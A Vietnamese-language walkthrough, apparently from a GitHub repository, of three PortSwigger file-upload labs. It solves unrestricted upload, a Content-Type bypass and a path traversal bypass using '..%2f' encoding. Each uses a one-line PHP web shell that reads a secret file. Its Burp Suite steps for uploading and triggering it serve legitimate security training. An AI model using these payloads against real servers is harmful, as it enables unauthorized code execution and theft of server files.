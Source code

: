 # Lab: Remote code execution via web shell upload
## Mô tả bài lab
Bài lab này chứa một chức năng tải lên hình ảnh có lỗ hổng. Nó không thực hiện bất kỳ xác thực nào đối với các tệp mà người dùng tải lên trước khi lưu trữ chúng trên hệ thống tệp của máy chủ.

Để hoàn thành bài lab, hãy tải lên một tập lệnh web shell PHP cơ bản và sử dụng nó để trích xuất nội dung của tệp `/home/carlos/secret`. Nộp bí mật này bằng cách sử dụng nút được cung cấp trong giao diện của bài lab.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.

![alt text](images/1.png)

3. Chọn **My account**và sử dụng thông tin đăng nhập được bài lab cung cấp để truy cập với quyền user: `wiener:peter`.
4. Tạo tệp `file_upload_portswigger.php` có nội dung như sau:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

5. Sử dụng chức năng upload file hình ảnh của trang web để thực hiện tải tệp .php lên hệ thống, khi thực hiện thành công ứng dụng sẽ trả về giao diện như dưới đây.

![alt text](images/2.png)

6. Sau khi trở lại giao diện `My account`, ứng dụng web sẽ tự động truy cập và thực hiện file .php khi muốn biểu diễn thông tin avatar của người dùng wiener.
7. Trên Burp Suite, chọn mục **Proxy > HTTP history**, phần mềm sẽ thể hiện các gói tin đã được trao đổi giữa thiết bị và ứng dụng web.

![alt text](images/3.png)

8. Ta có thể thấy có một gói tin `GET` được sử dụng để lấy thông tin từ `/files/avatars/file_upload_portswigger.php`. Xem phản hồi từ gói tin này, ta sẽ nhận được chuỗi ký tự `NpI0Jbeq5tmC1H58h6wSHCrQcofxWty2` từ tệp `/home/carlos/secret` trên hệ thống.

![alt text](images/4.png)

9. Chọn **Submit solution** trên giao diện bài lab, sau đó điền thông tin vừa lấy được. Trang web sẽ trả về thông báo hoàn thành bài lab.

# Lab: Web shell upload via Content-Type restriction bypass
## Mô tả bài lab
Bài lab này chứa một chức năng tải lên hình ảnh có lỗ hổng bảo mật. Nó cố gắng ngăn người dùng tải lên các loại tệp không mong muốn, nhưng lại dựa vào việc kiểm tra dữ liệu do người dùng kiểm soát để xác minh điều này.

Để giải quyết bài lab, hãy tải lên một web shell PHP cơ bản và sử dụng nó để truy xuất nội dung của tệp `/home/carlos/secret`. Gửi mã bí mật này bằng cách nhấn vào nút được cung cấp trong biểu ngữ của bài lab.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.

![alt text](images/7.png)

3. Chọn **My account**và sử dụng thông tin đăng nhập được bài lab cung cấp để truy cập với quyền user: `wiener:peter`.
4. Tạo tệp `file_upload_portswigger.php` có nội dung như sau:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

5. Bật tính năng **Intercept** trên Burp Suite và sử dụng chức năng upload file hình ảnh của trang web để thực hiện tải tệp .php lên hệ thống.
6. Do ứng dụng web dựa vào máy người dùng để xác định loại tệp được tải lên, ta có thể can thiệp vào kết quả trên gói tin thiết bị đang gửi đi thông qua Burp Suite. Ở đây, ta có thể thay đổi loại tệp từ `application/octet-stream` thành `image/jpeg`.

![alt text](images/8.png)

7. Ứng dụng trả về thông báo đã upload tệp .php thành công.

![alt text](images/9.png)

8. Tắt **Intercept**, trở lại giao diện upload file và kiểm tra **HTTP history** trên Burp Suite. Ta có thể thấy ứng dụng web có gửi một gói tin `GET` để lấy thông tin về avatar, điều này sẽ thực hiện dòng lệnh trong tệp .php và trả về nội dung của `/home/carlos/secret`.

![alt text](images/10.png)

9. Chọn **Submit solution** và điền thông tin vừa nhận được, sau đó chọn **OK** và ứng dụng sẽ trả về thông báo hoàn thành bài lab.

# Lab: Web shell upload via path traversal
## Mô tả bài lab
Bài lab này chứa một chức năng tải lên hình ảnh dễ bị tấn công. Máy chủ được cấu hình để ngăn chặn việc thực thi các tệp do người dùng cung cấp, nhưng hạn chế này có thể bị vượt qua bằng cách khai thác một lỗ hổng thứ cấp.

Để giải quyết bài lab, hãy tải lên một shell web PHP cơ bản và sử dụng nó để trích xuất nội dung của tệp `/home/carlos/secret`. Nộp bí mật này bằng nút được cung cấp trong biểu ngữ của bài lab.

Bạn có thể đăng nhập vào tài khoản của mình bằng các thông tin sau: `wiener:peter`.

## Các bước thực hiện
1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.

![alt text](images/11.png)

3. Chọn **My account**và sử dụng thông tin đăng nhập được bài lab cung cấp để truy cập với quyền user: `wiener:peter`.
4. Tạo tệp `file_upload_portswigger.php` có nội dung như sau:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

5. Tải tệp này lên bằng phím chức năng của ứng dụng, có thể thấy ứng dụng không ngăn cản việc người dùng tải lên một tệp .php và ứng dụng trả về kết quả tải lên thành công.

![alt text](images/12.png)

6. Trở về giao diện **My account**, sau đó mở **HTTP history** trên Burp Suite để đọc gói tin mà trang web thực hiện để lấy thông tin về avatar. Ở đây trang web trả về nội dung của gói tin .php chứ không thực hiện dòng lệnh.

![alt text](images/13.png)

7. Gửi gói tin sử dụng phương thức `POST` có URL là `/my-account/avatar` để **Repeater** để dễ dàng thao tác hơn.
8. Ở phần `Content-Disposition`, thêm `../` vào trước tên của file đã tải lên. Có thể thấy phản hồi đã hoàn toàn bỏ qua phần được thêm vào.
9. Lần này thử sử dụng mã hoá với phần thêm vào, thay `../` thành `..%2f`. Ứng dụng web sẽ phản hồi với thông báo tệp `avatars/../file_upload_portswigger.php` đã được tải lên thành công.

![alt text](images/14.png)

10. Trở về **Proxy > HTTP history**, sau đó tải lại giao diện trang web, ta sẽ thấy một gói tin `GET` được trỏ đến `/files/avatars/..%2ffile_upload_portswigger.php`. Qua thông báo tải lên file thành công, ta biết được file đã được upload lên bậc cao hơn do `..%2f` được giải mã thành `../`, ta có thể chặn gói tin `GET` này trong lần tới và thay đổi thông tin để thực hiện tìm kiếm đến `/files/file_upload_portswigger.php`.

![alt text](images/15.png)

11. Sau khi thực hiện, xem lại **HTTP history** để nhận thông tin chứa trong `/home/carlos/secret`. Nộp kết quả và trang web sẽ trả về thông báo hoàn thành bài lab.
